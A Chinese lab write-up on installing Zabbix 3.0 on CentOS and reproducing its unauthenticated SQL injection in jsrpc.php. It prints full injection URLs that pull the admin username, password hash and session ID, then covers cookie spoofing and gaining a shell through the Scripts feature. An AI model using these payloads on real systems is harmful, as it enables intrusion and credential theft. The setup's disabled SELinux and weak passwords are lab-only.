










# 记一次zabbix安装及漏洞利用getshell全过程 - 先知社区

记一次zabbix安装及漏洞利用getshell全过程

- - -

## 1 前言

Zabbix 是由 Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。可用于监视各种网络服务、服务器和网络机器等状态。本着其开源、安装简单等特点被广泛使用。

但zabbix 2.2.x, 3.0.0-3.0.3版本存在SQL注入漏洞，攻击者无需授权登陆即可登陆zabbix管理系统，进入后台后script等功能直接获取zabbix服务器的操作系统权限。最近复现了这个漏洞，彻底搞懂了如何利用zabbix漏洞进入后台直到getshell。这里就来记录下，小白篇，大牛请绕过。

## 2 安装

**环境：centos6.5**

PHP >= 5.4 (CentOS6默认为5.3.3，需更新)  
curl >= 7.20 (如需支持SMTP认证，需更新)

**安装版本zabbix3.0**

关闭selinux

```plain
修改/etc/sysconfig/selinux
将SELINUX=enforcing，改为SELINUX=disabled然后重启
查看状态：getenforce
```

安装

```plain
rpm -ivh http://dev.mysql.com/get/mysql-community-release-el6-5.noarch.rpm
yum install mysql-server -y  #此过程会因为网路问题偏慢，请耐心等待
```

配置

```plain
vim /etc/my.cnf  
[mysqld]
innodb_file_per_table
```

启动

```plain
service mysqld start
```

设置root密码

```plain
mysql_secure_installation 


Enter current password for root (enter for none):
Set root password? [Y/n]
Remove anonymous users? [Y/n]
Disallow root login remotely? [Y/n]
Remove test database and access to it? [Y/n]
Reload privilege tables now? [Y/n]
```

创建zabbix数据库

```plain
mysql -uroot -p
mysql> CREATE DATABASE zabbix CHARACTER SET utf8 COLLATE utf8_bin;
mysql> GRANT ALL PRIVILEGES ON zabbix.* TO zabbix@localhost IDENTIFIED BY 'zabbix';
mysql> show databases;   
+--------------------+     
| Database           |     
+--------------------+     
| information_schema |     
| mysql              |     
| zabbix             |     
+--------------------+
```

迁出RPM安装包

```plain
git clone https://github.com/zabbixcn/zabbix3.0-rpm.git
cd  zabbix3.0-rpm/RPMS
yum install zabbix-web-mysql-3.0.0-1.el6.noarch.rpm zabbix-web-3.0.0-1.el6.noarch.rpm
```

安装软件源

```plain
rpm -ivh http://repo.webtatic.com/yum/el6/latest.rpm
```

安装PHP 5.6

```plain
yum install httpd php56w php56w-mysql php56w-gd php56w-imap php56w-ldap php56w-odbc php56w-pear php56w-xml php56w-xmlrpc php56w-mcrypt php56w-mbstring php56w-devel php56w-pecl-memcached  php56w-common php56w-pdo php56w-cli php56w-pecl-memcache php56w-bcmath php56w-fpm
```

安装curl

```plain
git clone https://github.com/zabbixcn/curl-rpm
cd curl-rpm/RPMS 
yum install curl-7.29.0-25.el6.x86_64.rpm  libcurl-7.29.0-25.el6.x86_64.rpm  libcurl-devel-7.29.0-25.el6.x86_64.rpm
```

安装Zabbix-Server

```plain
yum -y install http://repo.zabbix.com/zabbix/3.0/rhel/7/x86_64/zabbix-release-3.0-1.el7.noarch.rpm
```

配置数据库连接信息

```plain
vi /etc/zabbix/zabbix_server.conf
DBHost=localhost
DBName=zabbix
DBUser=zabbix
DBPassword=zabbix
```

启动Zabbix-Server

```plain
/etc/init.d/zabbix-server start
```

启动Apache

```plain
/etc/init.d/httpd start
```

安装zabbix-agent源码

```plain
rpm -ivh http://repo.zabbix.com/zabbix/2.4/rhel/6/x86_64/zabbix-release-2.4-1.el6.noarch.rpm
```

安装zabbix客户端

```plain
yum install zabbix-agent -y
```

启动服务

```plain
service zabbix-agent start
chkconfig zabbix-agent on
```

最后浏览器访问[http://IP/zabbix进行配置即可。](http://ip/zabbix%E8%BF%9B%E8%A1%8C%E9%85%8D%E7%BD%AE%E5%8D%B3%E5%8F%AF%E3%80%82)

## 3 漏洞利用

**测试环境：**

攻击机win7 ip:192.168.10.138

靶机centos6.5 ip:192.168.10.131

攻击机已知靶机ip，且靶机系统未关闭默认开启guest账户登陆。

在攻击机访问的zabbix的地址后面加上如下url：

```plain
/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&tim
estamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=hi
story.php&profileIdx=web.item.graph&profileIdx2=2'3297&updateProfil
e=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=
17&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&
mark_color=1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191129181122-986155fe-1290-1.png)

输出结果，若包含：You have an error in your SQL syntax;表示漏洞存在。

**实操：**

zabbix 默认账户Admin密码zabbix，可以先尝试一波弱口令可能有意外收获。如果不行可以利用jsrpc的profileIdx2参数sql注入，具体操作如下：

-   获取用户名

```plain
jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=profileldx2=(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(0x7e,name,0x7e)%20as%20char),0x7e))%20from%20zabbix.users%20LIMIT%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191129181123-98a231c8-1290-1.png)

-   获取密码

```plain
jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=profileldx2=(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(0x7e,passwd,0x7e)%20as%20char),0x7e))%20from%20zabbix.users%20LIMIT%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191129181123-98e2263e-1290-1.png)

-   获取sessionid

```plain
http://192.168.10.131/zabbix/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=profileldx2=(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(0x7e,sessionid,0x7e)%20as%20char),0x7e))%20from%20zabbix.sessions%20LIMIT%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191129181124-991762e0-1290-1.png)

用户名密码及sessionid值都已得到，可以先对密码md5解密，解密成功可直接进入后台。解密不成功可以用sessionid值进行Cookie欺骗替换zbx\_sessionid即可成功以administrator登陆。这里利用Cookie欺骗进行测试，经过御剑扫描发现setup.php页面，但是没有权限登陆。

[](https://xzfile.aliyuncs.com/media/upload/picture/20191129181124-9941b6b2-1290-1.png)

我们把这个页面的zbx\_sessionid替换成注入出来的sessionid值,刷新后即可看到安装页面。

[](https://xzfile.aliyuncs.com/media/upload/picture/20191129181124-997e4e60-1290-1.png)

此时再次访问[http://192.168.10.131/zabbix/，即可成功进入后台。](http://192.168.10.131/zabbix/%EF%BC%8C%E5%8D%B3%E5%8F%AF%E6%88%90%E5%8A%9F%E8%BF%9B%E5%85%A5%E5%90%8E%E5%8F%B0%E3%80%82)

[](https://xzfile.aliyuncs.com/media/upload/picture/20191129181125-99afc6de-1290-1.png)

接下来我们尝试利用后台script功能获取其操作系统权限。

首先在Administration页面的scrpit功能栏创建script如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20191129181125-99ce7aac-1290-1.png)

然后重点在于找触发点，找到触发点才能执行。方法很多，这里拿常用的举例。

[](https://xzfile.aliyuncs.com/media/upload/picture/20191129181125-99fc9798-1290-1.png)

执行成功后即可getshell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20191129181125-9a309278-1290-1.png)

ps：如果执行脚本报错Remote commands are not enabled需要在靶机的配置文件zabbix\_agentd.conf中添加下面语句，开启对远程命令的支持，添加完成后重启下服务即可。

```plain
EnableRemoteCommands = 1
```

## 4 修复建议

1.更新到最新版本

2.禁用guest登陆功能

3.禁用远程命令
